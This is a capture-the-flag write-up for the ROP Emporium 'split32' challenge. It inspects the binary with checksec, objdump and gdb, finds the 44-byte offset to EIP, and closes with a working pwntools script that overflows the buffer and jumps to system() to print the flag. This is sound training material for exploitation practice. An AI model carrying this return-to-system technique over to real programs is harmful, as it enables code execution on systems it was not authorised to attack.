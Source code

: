 First of all, use checksec to get some binary information
```shell
[marco@marco-pc Downloads]$ file split32
split32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f8a6d6bf3d264d331ecbf9d1e6858d6eac124b89, not stripped
[marco@marco-pc Downloads]$ checksec --file=split32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   80 Symbols     No	0		3	split32
```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table
```shell
[marco@marco-pc Downloads]$ objdump -t split32
...
080485f6 l     F .text	00000053              pwnme
...
08048649 l     F .text	00000019              usefulFunction
...
0804a030 g     O .data	0000001a              usefulString
```

There are some interesting stuff:
- pwnme, which is called from main, print some strings and get an input;
- usefulFunction perfom a system comand "/bin/ls"
- usefulString is "/bin/cat flag.txt"
```gdb
pwndbg> disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x08048649 <+0>:	push   ebp
   0x0804864a <+1>:	mov    ebp,esp
   0x0804864c <+3>:	sub    esp,0x8
   0x0804864f <+6>:	sub    esp,0xc
   0x08048652 <+9>:	push   0x8048747
   0x08048657 <+14>:	call   0x8048430 <system@plt>
   0x0804865c <+19>:	add    esp,0x10
   0x0804865f <+22>:	nop
   0x08048660 <+23>:	leave  
   0x08048661 <+24>:	ret    
End of assembler dump.
pwndbg> x/s 0x8048747
0x8048747:	"/bin/ls"
pwndbg> x/s 0x0804a030
0x804a030 <usefulString>:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP. Jumping at system@plt with usefulString as parameter, we can read the flag.
Let's find out how many bytes we need to fill until EIP
```gdb
pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

...

split by ROP Emporium
32bits

Contriving a reason to ask user for data...
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.

...

 EIP  0x6161616c ('laaa')

...

pwndbg> cyclic -l 'laaa'
44
```

Final exploit:
NOTE: I put exit address as return address for a clean execution but you can put 4 random bytes like "BBBB"
```python
from pwn import *

system_addr = 0x8048430
string_addr = 0x804a030
exit_addr = 0xf7de96c0
 
expl = ("A"*44).encode()
expl += p32(system_addr)
expl += p32(exit_addr)
expl += p32(string_addr)
 
p = process('./split32')
p.recvuntil('>')
p.sendline(expl)
print(p.recvall().decode())
```
